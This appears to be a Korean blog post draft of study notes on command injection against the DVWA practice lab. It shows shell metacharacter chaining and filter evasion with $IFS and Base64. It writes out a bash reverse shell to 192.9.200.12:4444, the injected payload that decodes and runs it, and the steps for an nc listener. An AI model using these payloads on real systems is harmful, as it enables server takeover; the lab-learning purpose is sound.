 ```yaml
---
layout: post
title: "명령어 인젝션 (Command Injection) 공부"
date: 2025-09-22 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

명령어 인젝션은 사용자의 입력값이 서버의 쉘 명령어의 일부로 검증 없이 전달될 때 발생하는 취약점이다. 공격자는 쉘의 특수문자(Metacharacters)를 주입하여 원래의 명령어를 종료시키거나 변조하고 자신이 원하는 새로운 명령어를 실행시킬 수 있다.

이 공격은 [A01: 접근 통제 실패](https://hamap0.github.io/projects/owasp-top-10/2025/08/25/A01_Broken-Access-Control.html) 보고서에서 리버스 쉘을 획득하여 서버 제어권을 장악하는 데 결정적인 역할을 했다.

---

### 2. 주요 공격 기법

공격의 핵심은 쉘 메타 문자를 사용하여 명령어의 흐름을 제어하는 것이다.

*   **`;` (Semicolon):** 앞 명령어의 성공 여부와 관계없이 다음 명령어를 순차적으로 실행한다.
    ```
    ping 127.0.0.1; whoami
    ```
*   **`&&` (Ampersand):** 앞 명령어가 성공적으로 실행되었을 때만 다음 명령어를 실행한다.
    ```
    ping 127.0.0.1 && whoami
    ```
*   **`|` (Pipe):** 앞 명령어의 표준 출력(stdout)을 다음 명령어의 표준 입력(stdin)으로 전달한다.

---

### 3. 필터링 우회 기법

단순한 메타 문자 주입은 방어 로직에 의해 차단될 수 있다. 이때는 필터링 규칙을 우회하는 기법이 필요하다.

#### **공백 문자 필터링 우회**
일부 시스템은 명령어 사이의 공백 문자를 필터링한다. 이때는 공백 대신 쉘의 내부 필드 구분자(Internal Field Separator)인 `$IFS` 변수를 사용할 수 있다.
*   **기본:** `cat /etc/passwd`
*   **우회:** `cat$IFS/etc/passwd`

#### **키워드 필터링 우회 (Base64 인코딩)**
`cat` · `ls` · `nc` 등 특정 명령어 키워드가 필터링될 때 사용된다. 실행할 명령어를 Base64로 인코딩하여 필터링을 우회한 뒤 서버에서 디코딩하여 실행시킨다.
1.  **공격자 PC에서 페이로드 인코딩:**
    ```bash
    # 실행할 리버스 쉘 명령어를 Base64로 인코딩 (-w0 옵션은 줄바꿈 없이 한 줄로 출력)
    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
    ```
2.  **대상 서버에서 디코딩 및 실행:**
    인코딩된 문자열을 `echo`로 출력하고 파이프(`|`)를 통해 `base64 -d`로 디코딩한 뒤 다시 파이프를 통해 `bash`로 실행시킨다.
    ```bash
    # DVWA 입력값:
    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
    ```
[여기에 Base64 인코딩을 이용한 RCE 성공 이미지 삽입]

이 방식은 필터링이 복잡할수록 유용하며 `A01` 보고서에서 서버 제어권을 획득할 때 사용된 핵심 기법이다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Base64 인코딩을 이용한 RCE 성공 이미지 제작**

이 이미지는 명령어 필터링을 우회하여 리버스 쉘을 획득하는 전 과정을 보여줍니다.

**1. "준비" 단계 (두 개의 터미널)**

1.  (준비) **공격자 PC(Attacker)**에서 두 개의 터미널 창을 엽니다.
2.  **첫 번째 터미널 (리스너):** `nc -lvnp 4444` 명령어를 실행하여 리스너를 시작합니다.
3.  **두 번째 터미널 (인코딩):** 리버스 쉘 페이로드를 Base64로 인코딩합니다.
    ```bash
    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
    # 결과로 나온 긴 문자열(예: YmFzaCAtaSA...)을 복사해 둡니다.
    ```

**2. "공격" 단계 (웹 브라우저)**

1.  웹 브라우저에서 DVWA의 `Command Injection` 페이지로 이동합니다.
2.  IP 입력창에 아래와 같은 형식으로 페이로드를 입력합니다. `<...>` 부분에는 위에서 복사한 Base64 문자열을 붙여넣습니다.
    ```
    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
    ```
3.  `Submit` 버튼을 클릭합니다.

**3. "결과 확인" 및 스크린샷 촬영**

1.  **첫 번째 터미널 (리스너)**을 확인합니다. `connect to...` 메시지와 함께 대상 서버의 쉘 프롬프트가 나타나면 성공입니다.
2.  `whoami` 명령어를 실행하여 `www-data`가 출력되는 것을 확인합니다.
3.  **두 번째 터미널 (인코딩)**과 **첫 번째 터미널 (리스너)**이 나란히 보이도록 배치하고, 화면 전체를 스크린샷으로 찍습니다.

**4. 최종 이미지 편집**

1.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
2.  왼쪽(인코딩 터미널)과 오른쪽(리스너 터미널)을 명확히 구분합니다.
3.  **왼쪽**에서는 Base64로 인코딩된 결과 문자열에 하이라이트를 적용합니다.
4.  **오른쪽**에서는 성공적으로 획득한 `www-data` 쉘 프롬프트와 `whoami` 결과에 하이라이트를 적용합니다.
5.  두 하이라이트 사이에 화살표 등을 추가하여 왼쪽의 인코딩된 페이로드가 오른쪽의 쉘 획득으로 이어졌음을 시각적으로 보여줍니다.
6.  수정된 이미지를 저장하여 게시글에 삽입합니다.
